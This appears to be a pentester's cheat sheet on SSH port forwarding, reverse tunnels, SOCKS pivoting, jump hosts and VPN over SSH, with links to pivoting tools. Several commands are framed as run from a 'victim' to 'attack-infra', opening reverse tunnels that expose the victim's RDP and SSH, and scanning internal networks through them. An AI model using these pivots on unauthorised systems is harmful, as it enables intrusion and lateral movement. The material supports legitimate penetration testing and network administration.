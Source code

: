 
### local port forwarding

requires: 'AllowTcpForwarding yes' on SSHD

    ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
    (exposes remote service <remote host>:<remote port> to local port via ssh tunnel)
    (connections made to <local port to listen> will be forwarded to <remote host>:<remote port>)

    # use case #1: prepare tunnel for attacking your victim
    pen-tester$ ssh user@attack-infra -L 1234:victim:80
    pen-tester$ curl http://127.0.0.1:1234

    # use case #2: attack victim's 445 port when access to it's sshd has been obtained
    attack-infra$ ssh user@victim -L 1234:127.0.0.1:445
    pen-tester$ nbtscan attack-infra:1234

### remote port forwarding

requires: 'AllowTcpForwarding yes' on SSHD

    ssh <gateway> -R <remote port to bind>:<local host>:<local port>
    (exposes local serivce <local host>:<local port> on the remote host via ssh tunnel)
    (connections made to <remote port to bind> on remote host will be forwared to <local host>:<local port>)

    # use case #1: expose internal RDP service to outside of the intranet
    victim$ ssh user@attack-infra -p53 -R 1234:127.0.0.1:3389
    pen-tester$ rdesktop attack-infra:1234 

    # use case #2 (special case of #1): reverse SSH tunnel (from victim to attack-infra)
	# NOTE: on attack-infra in /etc/ssh/sshd_config set 'GatewayPorts yes' to be able connect from pen-tester
    victim$ ssh -f -N -p53 -R 2222:127.0.0.1:22 user@attack-infra
    pen-tester$ ssh user@attack-infra -p2222

    # use case #3 (the same as #2 but with additional IP access control) - didn't work for me
	# NOTE: on attack-infra in /etc/ssh/sshd_config set 'GatewayPorts clientspecified' to be able connect from pen-tester
    victim$ ssh -f -N -p53 -R <pen-tester-ip>:2222:127.0.0.1:22 user@attack-infra
    pen-tester$ ssh user@attack-infra -p2222

### dynamic port forwarding

Requires: `AllowTcpForwarding yes` on SSHD (default setting)

    ssh -D <local proxy host:port> -p <remote port> <target>

    # use case #1: create local socks4 proxy which will tunnel incoming traffic to victimDMZ
    ssh -D1234 -p22 user@victim

    # use case #2: reverse ssh from victim allows to scan whole internal network
    victim$ ssh -f -N -R 2222:127.0.0.1:22 root@attack-infra
    pen-tester$ ssh -f -N -D 127.0.0.1:8082 -p 2222 root@attack-infra
    pen-tester$ (add 'socks4 127.0.0.1 8082' to /etc/proxychains.conf)
    pen-tester$ proxychains nmap --top-ports=20 -sT -Pn <target> 

Wrapper to provide `ssh -D` functionality in cases when forwarding is disabled (`AllowTcpForwarding No`):

	https://github.com/TarlogicSecurity/SaSSHimi

### reverse SOCKS proxy

On Linux box (SSH’d to localhost with the -D option to get the SOCKS server running, then make a second connection to the Internet to port-forward access to the SOCKS service):

```
# (not verified solution yet):
ssh -D4321 user@127.0.0.1
ssh -N -P443 -i key.pem -R 1234:127.0.0.1:4321 user@external_attack_machine

# on 'external_attack_machine' use proxchains with following configuration:
socks5 127.0.0.1 1234
```

From Windows box (3rd party software needed to run SOCKS server):

    https://labs.portcullis.co.uk/blog/reverse-port-forwarding-socks-proxy-via-http-proxy-part-1/

Possible alternative (no SSH used) solutions:

    https://github.com/klsecservices/rpivot
    https://github.com/sensepost/reGeorg

### SSH over SSL

    http://blog.chmd.fr/ssh-over-ssl-episode-2-replacing-proxytunnel-with-socat.html

### ssh over socks proxy

    $ ssh -i key.pem -o 'ProxyCommand=nc -X 5 -x proxy:1080 %h %p' user@host

### connect to host via other SSH jump box

Basic scenario:

    ssh -o ProxyCommand="ssh -W %h:%p -i proxykey.pem proxy_user@proxy_host" user@host
    scp -r -o ProxyCommand="ssh -W %h:%p -i proxykey.pem proxy_user@proxy_host" user@host:dir ./

Multiple SSH hops:

    ssh -i host-key.pem -J user1@hop1,user2@hop2 user@host
	scp -i host-key.pem -r -o 'ProxyJump user1@hop1,user2@hop2' user@host:dir ./

Multiple SSH hops each requiring different identity key:

```
eval `ssh-agent -s`
ssh-add -D
ssh-add key1.pem 
ssh-add key2.pem
ssh -i host-key.pem -Juser1@hop1,user2@hop2 user@host
```

### VPN over SSH

Requires modifications of sshd configuration, specifically:

```
PermitRootLogin yes
PermitTunnel yes # non-default setting
```

Run:

```
ssh username@server -w any:any
```

For detailed setup see: `https://artkond.com/2017/03/23/pivoting-guide/#vpn-over-ssh`.

### custom VPN solution over SSH

Poor's man VPN solution over SSH tunnel (no server-side modifications are needed):

    https://github.com/sshuttle/sshuttle

### mounting directories over SSH

    https://github.com/libfuse/sshfs

    # reverse directory mount (https://superuser.com/questions/616182/how-to-mount-local-directory-to-remote-like-sshfs/918708#918708):
    ncat -l -p 34567 -e "/usr/lib/ssh/sftp-server" & ssh -t -R 34568:localhost:34567 -i key.pem user@IP "sudo -E sshfs localhost: DIRNAME -o directport=34568; sudo -E bash"

### Metasploit via jump host

    https://www.ryanwendel.com/2020/02/02/forwarding-shells-through-a-jump-box-using-ssh/

### Other interesting


```
https://github.com/sshuttle/sshuttle
https://github.com/stealth/sshttp
# rescue when "ssh -D" is not supported by the sshd:
https://github.com/TarlogicSecurity/SaSSHimi
# blending your SSH traffic:
https://github.com/dsnezhkov/SSHoRTY
```

   

